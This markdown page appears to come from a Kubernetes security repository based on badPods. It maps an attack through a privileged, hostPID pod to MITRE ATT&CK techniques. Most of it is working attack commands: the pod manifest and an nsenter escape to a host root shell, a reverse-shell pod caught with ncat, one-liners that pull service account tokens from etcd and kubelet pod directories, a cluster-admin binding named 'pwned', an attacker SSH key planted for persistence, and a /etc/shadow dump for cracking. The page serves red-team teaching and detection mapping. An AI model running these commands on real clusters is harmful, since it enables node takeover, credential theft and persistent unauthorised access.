

# MITRE ATT&CK Mapping: Privileged + hostPID Pod

---

## Attack Flow Overview



---

## Phase 1: Pod Creation & Access

### Step 1.1: Deploy privileged + hostPID pod

**Command:**
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Deploy container with privileged security context AND hostPID

**Pod Configuration:**
```yaml
spec:
  hostPID: true
  containers:
  - securityContext:
      privileged: true
```

---

### Step 1.2: Exec into the pod

**Command:**
```bash
kubectl exec -it priv-and-hostpid-exec-pod -- bash
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Execute bash session inside container with host PID namespace access

---

### Step 1.3: Escape to host using nsenter

**Command:**
```bash
# nsenter into PID 1 (init system) on the host
nsenter -t 1 -m -u -i -n -p -- bash
```

**MITRE Techniques:**
- **T1611** - Escape to Host
  - Use nsenter to enter host namespaces and get root shell on node

**Explanation:**
- **privileged: true** - Breaks down container isolation, allows cgroup/device manipulation
- **hostPID: true** - Grants visibility to all host processes
- **nsenter -t 1** - Enters namespaces of PID 1 (host's init system)
- Flags: `-m` (mount), `-u` (UTS/hostname), `-i` (IPC), `-n` (network), `-p` (PID)

**Result:**
```bash
root@k8s-worker:/# hostname
k8s-worker
```

---

### Step 1.4: Alternative - Reverse shell method

**Commands:**
```bash
# Step 1: Set up listener
ncat --ssl -vlp 3116

# Step 2: Create pod with reverse shell
HOST=\"10.0.0.1\" PORT=\"3116\" envsubst < ./manifests/priv-and-hostpid/pod/priv-and-hostpid-revshell-pod.yaml | kubectl apply -f -

# Step 3: Catch shell, then nsenter to host
nsenter -t 1 -m -u -i -n -p -- bash
```

**MITRE Techniques:**
- **T1095** - Non-Application Layer Protocol
  - Encrypted reverse shell connection using ncat --ssl

---

## Phase 2: Post-Escape Exploitation

### Step 2.1: Enumerate cluster nodes

**Command:**
```bash
kubectl get nodes
```

**MITRE Techniques:**
- **T1082** - System Information Discovery
  - Enumerate cluster nodes to identify control-plane

**Example Output:**
```
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

---

### Step 2.2: Redeploy pod on control-plane node (if needed)

**Commands:**
```bash
# Edit manifest to add nodeName
# nodeName: k8s-control-plane

kubectl apply -f manifests/priv-and-hostpid/job/priv-and-hostpid-exec-job.yaml
```

**MITRE Techniques:**
- **T1610** - Deploy Container
  - Redeploy container on control-plane node for etcd access

---

### Step 2.3: Extract secrets from etcd database

**Commands:**
```bash
# Locate etcd data directory
ps -ef | grep etcd | sed s/\\-\\-/\\\\n/g | grep data-dir

# View etcd database
strings /var/lib/etcd/member/snap/db | less

# Extract all tokens
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo \"$db\" | grep eyJhbGciOiJ`; do name=`echo \"$db\" | grep $x -B40 | grep registry`; echo $name \\| $x; echo; done

# Extract kube-system default token
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo \"$db\" | grep eyJhbGciOiJ`; do name=`echo \"$db\" | grep $x -B40 | grep registry`; echo $name \\| $x; echo; done | grep kube-system | grep default
```

**MITRE Techniques:**
- **T1555.004** - Credentials from Password Stores: Cloud Secrets Management Stores
  - Extract all Kubernetes secrets from etcd database
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Read service account tokens from etcd database file

---

### Step 2.4: Search for kubeconfig files

**Commands:**
```bash
find / -name kubeconfig 2>/dev/null
find / -name .kube 2>/dev/null
grep -R \"current-context\" /home/ 2>/dev/null
grep -R \"current-context\" /root/ 2>/dev/null
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Search for kubeconfig files with high-privilege credentials
- **T1083** - File and Directory Discovery
  - Enumerate filesystem for Kubernetes configuration

---

### Step 2.5: Enumerate all service account tokens on node

**Commands:**
```bash
# Simple list of all tokens with namespaces
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; \\
for token in $tokens; \\
do parent_dir=\"$(dirname \"$token\")\"; \\
namespace=`cat $parent_dir/namespace`; \\
echo $namespace \"|\" $token ; \\
done | sort
```

**MITRE Techniques:**
- **T1552.007** - Unsecured Credentials: Container API
  - Enumerate service account token locations for all pods on node

---

### Step 2.6: Use can-they.sh to test token permissions

**Commands:**
```bash
# Copy can-they.sh to pod first
kubectl cp scripts/can-they.sh priv-and-hostpid-exec-pod:/

# From OUTSIDE pod (where kubectl is installed)
./can-they.sh -n default -p priv-and-hostpid-exec-pod -i \"--list -n kube-system\"
./can-they.sh -n default -p priv-and-hostpid-exec-pod -i \"get secrets -n kube-system\"
./can-they.sh -n default -p priv-and-hostpid-exec-pod -i \"create clusterrolebindings\"
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Access and test all service account tokens from pods on the node
- **T1613** - Container and Resource Discovery
  - Enumerate permissions granted to each stolen token

---

### Step 2.7: Manual token enumeration (alternative)

**Commands:**
```bash
# From OUTSIDE pod
tokens=`kubectl exec -it priv-and-hostpid-exec-pod -- find /var/lib/kubelet/pods/ -name token -type l`; \\
for filename in $tokens; \\
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \\
echo \"Token Location: $filename_clean\"; \\
tokena=`kubectl exec -it priv-and-hostpid-exec-pod -- cat $filename_clean`; \\
kubectl --token=$tokena auth can-i --list -n kube-system; echo; \\
done
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Extract tokens via kubectl exec and test permissions

---

### Step 2.8: Use high-privilege token for escalation

**Commands:**
```bash
# If token has cluster-admin or high privileges
export TOKEN=\"eyJhbGciOiJSUzI1NiIsImtp...\"

# Create clusterrolebinding
kubectl --token=$TOKEN create clusterrolebinding pwned --clusterrole=cluster-admin --serviceaccount=default:default

# Access secrets
kubectl --token=$TOKEN get secrets -n kube-system
```

**MITRE Techniques:**
- **T1078.004** - Valid Accounts: Cloud Accounts
  - Use stolen service account token for authentication
- **T1098.001** - Account Manipulation: Additional Cloud Credentials
  - Create clusterrolebinding to grant cluster-admin

---

### Step 2.9: Add SSH key for persistent access

**Commands:**
```bash
# From host shell (after nsenter)
echo \"ssh-rsa AAAA... attacker@host\" >> /root/.ssh/authorized_keys

# SSH to node
ssh root@node-ip
```

**MITRE Techniques:**
- **T1098.004** - Account Manipulation: SSH Authorized Keys
  - Add SSH public key for persistent node access
- **T1021.004** - Remote Services: SSH
  - Use SSH with added key to access node

---

### Step 2.10: Crack password hashes

**Commands:**
```bash
# From host shell
cat /etc/shadow

# Crack offline
# john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
# hashcat -m 1800 shadow.txt rockyou.txt
```

**MITRE Techniques:**
- **T1003.008** - OS Credential Dumping: /etc/passwd and /etc/shadow
  - Extract password hashes from host
- **T1110.002** - Brute Force: Password Cracking
  - Crack hashes offline to access other nodes

---

### Step 2.11: Examine pod volumes for sensitive data

**Commands:**
```bash
# Find all pod volumes
ls -la /var/lib/kubelet/pods/*/volumes/

# Check for secrets and configmaps
find /var/lib/kubelet/pods -type d -name \"kubernetes.io~secret\"
cat /var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/*/data
```

**MITRE Techniques:**
- **T1552.007** - Unsecured Credentials: Container API
  - Access secrets and configmaps mounted in other pods
- **T1005** - Data from Local System
  - Extract sensitive data from pod volumes

---

## Phase 3: General Pod Attacks

### Step 3.1: Standard pod exploitation techniques

**Procedures:**

Standard pod attacks apply:

- Access cloud metadata service
- Query kubelet/kube-apiserver with anonymous-auth
- Hunt for vulnerable services
- Exploit known Kubernetes CVEs

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query cloud metadata for IAM credentials

**Reference:** See [nothing-allowed/README.md](../nothing-allowed) for details

---

## Cleanup

### Delete the pod

**Commands:**
```bash
kubectl delete pod priv-and-hostpid-exec-pod

# Or using manifest
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
```

**MITRE Techniques:**
- **T1070.004** - Indicator Removal: File Deletion
  - Remove malicious pod

> [!WARNING]
> If you modified host filesystem (SSH keys, /etc/shadow, etc.), deleting the pod does NOT remove those changes. Manual cleanup required.

---

## Summary

### Key Attack Vector

**nsenter to Host** - The combination of `privileged: true` + `hostPID: true` enables the simplest and most reliable container escape:

```bash
nsenter -t 1 -m -u -i -n -p -- bash
```

This single command provides:
- Immediate root shell on the host
- Full filesystem access (no limited mount view)
- Access to all host processes
- Complete control over the node

### Why This Works

1. **hostPID: true** - Pod can see all host processes, including PID 1 (init)
2. **privileged: true** - Removes namespace restrictions, allows entering other namespaces
3. **nsenter -t 1** - Enters all namespaces of PID 1 (the host's init system)
4. Result: Full root access to the host

### Comparison to Other Escapes

| Escape Method | Complexity | Reliability | Interactivity |
|---------------|-----------|-------------|---------------|
| nsenter (priv+hostPID) | Very Low | Very High | Immediate |
| cgroup exploit (priv only) | Medium | High | Requires setup |
| hostPath mount | Very Low | High | Limited access |

### Configuration Details

```yaml
spec:
  hostPID: true
  containers:
  - securityContext:
      privileged: true
```

**This combination grants:**
- Visibility to all host processes via `hostPID`
- Ability to enter host namespaces via `privileged`
- Single-command escape: `nsenter -t 1 -m -u -i -n -p -- bash`
- Full root access to host filesystem, no limitations
- Access to all service account tokens on the node
- Read/write access to etcd database (if on control-plane)

### Post-Exploitation Paths

After nsenter escape, all privilege escalation paths from [everything-allowed](../everything-allowed/README.md) are available:
1. Extract secrets from etcd (if on control-plane)
2. Hunt for kubeconfig files
3. Steal service account tokens with can-they.sh
4. Add SSH keys for persistence
5. Crack /etc/shadow passwords
6. Access cloud metadata service

### References

- [kubectl-node-shell](https://github.com/kvaps/kubectl-node-shell)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://www.youtube.com/watch?v=HmoVSmTIOxM)
- [Command and KubeCTL: Real-World Kubernetes Security](https://www.youtube.com/watch?v=cRbHILH4f0A)
